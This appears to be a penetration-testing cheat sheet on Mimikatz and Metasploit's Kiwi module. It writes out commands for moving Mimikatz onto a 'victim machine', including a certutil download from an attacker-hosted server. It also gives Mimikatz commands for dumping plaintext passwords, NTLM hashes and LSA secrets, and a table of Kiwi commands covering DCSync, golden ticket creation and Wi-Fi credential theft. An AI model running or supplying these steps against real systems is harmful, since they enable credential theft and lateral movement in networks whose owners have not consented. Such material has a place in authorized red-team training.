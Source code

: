 **Mimikatz** allows to extract sensitive data, such as plaintext passwords, password hashes, and Kerberos tickets, directly from a system's memory. Its capabilities, such as credential dumping, Pass-the-Hash, and Golden Ticket attacks, highlight weaknesses in Windows security.


## Transmit and Execute Mimikatz 

To run Mimikatz on a victim machine, you first need to transmit the Mimikatz executable to the machine.

#### Using Metasploit

```bash
cd C:\\Windows\\Temp\\
upload /usr/share/windows-resources/mimikatz/x64/ 
# Once uploaded, you can execute it through the Meterpreter session
execute -f C:\\Windows\\Temp\\mimikatz.exe
```

#### Using Python server

```bash
# Linux machine
python3 -m http.server 8000
# Windows machine
certutil -urlcache -f http://<attacker-ip>:<port>/mimikatz.exe mimikatz.exe
# Execute
start C:\Windows\Temp\mimikatz.exe
```

## **Enable Debug Privileges**

For Mimikatz to interact with Windows security processes like LSASS (Local Security Authority Subsystem Service), you must grant it the necessary privileges. This is done by enabling the `debug` privilege within Mimikatz:

```bash
privilege::debug
```


## **Dumping Credentials**

Mimikatz can dump various credentials, such as passwords, hashes, and Kerberos tickets, from memory. Below are the most common commands to extract these credentials:

1.  **Dumping Plaintext Passwords**

To dump all plaintext passwords and related information from the memory:

```bash
sekurlsa::logonpasswords
```

This command displays detailed information about the current user's session, including usernames, domain names, and plaintext passwords if available.

2.  **Dumping NTLM Hashes**

To extract NTLM hashes of users' passwords:

```bash
lsadump::sam
```

This dumps the hashes of local user accounts stored in the SAM (Security Account Manager) database.


3.  **Dumping secrets**

The `lsadump::secrets` command in Mimikatz is used to extract secrets (like password hashes, Kerberos keys, and other sensitive data) from the LSA (Local Security Authority) secrets database in Windows systems.

```bash
lsadump::secrets
```

## Dumping Credentials with Kiwi
The **Kiwi module** in Metasploit is a module based on the **mimikatz** tool and allows you to extract sensitive data, such as plaintext passwords, password hashes, and Kerberos tickets, from a compromised machine. Here's a breakdown of how to use it for dumping credentials.

#### Usage

In your Metasploit console, you need to load the `kiwi` module to interact with the victim machine’s memory.

```bash
load kiwi
```

Once you have gained the Meterpreter session you can execute the following commands:

|**Command**|**Description**|
|---|---|
|`creds_all`|Retrieve all credentials (parsed)|
|`creds_kerberos`|Retrieve Kerberos credentials (parsed)|
|`creds_msv`|Retrieve LM/NTLM credentials (parsed)|
|`creds_ssp`|Retrieve SSP credentials (parsed)|
|`creds_tspkg`|Retrieve TsPkg credentials (parsed)|
|`creds_wdigest`|Retrieve WDigest credentials (parsed)|
|`dcsycn`|Retrieve user account information via DCSync (unparsed)|
|`dcsycn_ntlm`|Retrieve user account NTLM hash, SID, and RID via DCSync (unparsed)|
|`golden_ticket_create`|Create a golden Kerberos ticket|
|`kerberos_ticket_list`|List all Kerberos tickets (unparsed)|
|`kerberos_ticket_purge`|Purge any in-use Kerberos tickets|
|`kerberos_ticket_use`|Use a Kerberos ticket|
|`kiwi_cmd`|Execute an arbitrary Mimikatz command (unparsed)|
|`lsa_dump_sam`|Dump LSA SAM (unparsed)|
|`lsa_dump_secrets`|Dump LSA secrets (unparsed)|
|`password_change`|Change the password/hash of a user|
|`wifi_list`|List WiFi profiles/credentials for the current user|
|`wifi_list_shared`|List shared WiFi profiles/credentials (requires SYSTEM privileges)|